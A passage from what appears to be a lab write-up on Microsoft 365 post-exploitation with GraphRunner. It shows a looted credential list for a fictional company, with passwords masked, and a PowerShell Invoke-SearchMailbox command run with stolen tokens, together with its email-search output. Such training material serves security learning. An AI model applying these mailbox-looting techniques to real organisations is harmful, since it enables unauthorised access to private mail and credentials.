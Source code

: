 ```

Username: accounting_user

Password: *****

  

Service/Account: Payroll System

URL: https://payrollonlinembt.corp.net

Username: payrollmanager

Password: *****

  

Service/Account: Bank Portal

URL: https://onlinebanking.megabank.com

Username: finusermbt

Password: *****

  

Service/Account: Expense Reporting

URL: https://expenses.megabigtech.local

Username: expensereport_user

Password: *****
```



Also, manage to open the Bonuses file. 
![](https://i.imgur.com/WraDTGM.png)

So earlier on [4. Loot Exchange, Teams and SharePoint with GraphRunner#2.3.2 Invoke-SearchMailbox|#2.3.2 Invoke-SearchMailbox](#232-invoke-searchmailbox232-invoke-searchmailbox), I used Invoke-SearchMailbox command to view the mailbox. And I thought the wild character `*` was consider as all. Once I read the actual lab, I realize that was a mistake.  So let's take a look at it. 


```powershell
PS> Invoke-SearchMailbox -Tokens $tokens -SearchTerm "Clara" -MessageCount 80
[*] Using the provided access tokens. 
[*] Found 15 matches for search term Clara                                                    
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Ols
son | Date: 11/06/2023 17:24:50 | Message Preview: ...windows.net Database: Finance Clara ...
================================================================================
Subject: Quick Heads-Up on This Month's Recons! | Sender: Sam.Olsson@megabigtech.com | Receivers: Clara Miller | Date: 11/06/2023 14:51:56 | Message Preview: Hey Clara, Hope you're doing we
ll! Just wanted to drop you a quick note about the reconciliations we've got lined up for the end-of-month close. Here's what's on the deck: Bank ...
================================================================================
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Ols
son | Date: 11/06/2023 17:24:50 | Message Preview: ...windows.net Database: Finance Clara ...
================================================================================
```
